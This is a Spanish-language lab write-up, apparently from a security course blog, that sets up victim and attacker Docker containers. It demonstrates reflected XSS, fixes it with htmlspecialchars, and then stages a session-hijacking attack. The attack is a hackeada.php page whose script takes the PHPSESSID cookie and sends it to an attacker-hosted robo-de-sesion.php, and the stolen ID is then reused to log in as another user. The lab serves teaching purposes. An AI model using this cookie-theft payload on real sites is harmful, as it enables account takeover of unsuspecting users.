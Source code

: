 ```yaml
---
typora-copy-images-to: ../assets/img
typora-root-url: ../
layout: post
categories:
conToc: true
title: Validacion
---
```


# Validación

Teniendo la estructura de directorios victima-atacante...



Dentro de victima/public_html crearemos el post.php con el siguiente contendio

![image-20220415103521642](/assets/img/image-20220415103521642.png)

Montamos el contenedor de víctima

```bash
sudo docker build -t victima
docker run --detach --rm -p8080:80 -v name:/data --name="victima" victima
```



Accedemos a localhost:8080/public_html/post.php e introducimos en el formulario el siguiente código

```bash
<script>alert('hackeado')</script>
```

![image-20220415104500832](/assets/img/image-20220415104500832.png)



Para securizar esta parte introduciremos el siguiente código dentro de post-php

```bash
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>

<?php
if ($_SERVER['REQUEST_METHOD'] == "GET") {
?>
<p>Nuevo Post</p>
<form action='post.php' method='post'>
	<textarea name="textarea" rows="10" cols="50">Escribe algo aquí</textarea>
	<input type = 'submit' value='enviar'>
</form>
<?php
}else
	echo htmlspecialchars($_POST["textarea"]) ?? "";
?>
</html>
```



A continuación crearemos un archivo php con el nombre robo-de-sesion dentro de la carpeta atacante/public_html

![image-20220415105716105](/assets/img/image-20220415105716105.png)



Dentro de victima/public_html crearemos un login.php con el siguiente contenido

```php
<?php
session_start();

//En una aplicación real, los usuarios estarían almaenados en la base de datos
$all_users = array ("mario" => "qwerty", "juan" => "123456");
$valid_users = array_keys($all_users);

$ya_registrado = $_SESSION['ya_registrado'] ?? false;


if ($_SERVER['REQUEST_METHOD'] == "POST" && !$ya_registrado){
	$usuario = $_POST['usuario'] ?? "";
	$password = $_POST['password'] ?? "";
    
	$ya_registrado = (in_array($usuario, $valid_users)) && ($password == $all_users[$usuario]);
	if ($ya_registrado){
		$_SESSION['ya_registrado'] = true;
		$_SESSION['usuario'] = $usuario;
	}
}

if ($ya_registrado){
	// Si llega aqui es porque es un usuario válido.
	echo "<p>Welcome " . $_SESSION['usuario'] . "</p>";
	echo "<p>Congratulations, you are into the system.</p>";
}else{
?>
	
	<form action='login.php' method='post'>
		Usuario: <input type='text' name = "usuario" id="usuario" value=""><br>
		Contraseña: <input type='password' name = "password" id = "password" value=""><br>
		<input type='submit' value='Enviar'>
	</form>
<?php
}
?>
```



Lo mismo con un logout.php

```php
<?php
//logout.php
session_start();
session_unset();
session_destroy();
//redirigimos a login.php
header('Location: login.php');
```



En el mismo sitio también crearemos un hackeada.php

```html
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8081/robo-de-sesion.php?session_robada=" + c;
</script>
</body>
</html>
```



Montamos el docker para el atacante

```bash
sudo docker build -t atacante .
sudo docker run --detach --rm -p8081:80 -v name:/data --name="atacante" atacante
```



Entramos en el login.php

![image-20220415110902859](/assets/img/image-20220415110902859.png)



Accedemos a heackeada.php

![image-20220415110959849](/assets/img/image-20220415110959849.png)



Nos aparecerá el PHPSSID si vamos a Investigar/Red/ y recargamos la página

![image-20220415111224625](/assets/img/image-20220415111224625.png)



Abrimos una nueva página y volvemos a acceder al login.php sin poner ningún dato. Vamos otra vez a Investigar/Red y ponemos el ID

![image-20220415111840762](/assets/img/image-20220415111840762.png)



Iniciaremos sesión como Juan

![image-20220415111925991](/assets/img/image-20220415111925991.png)
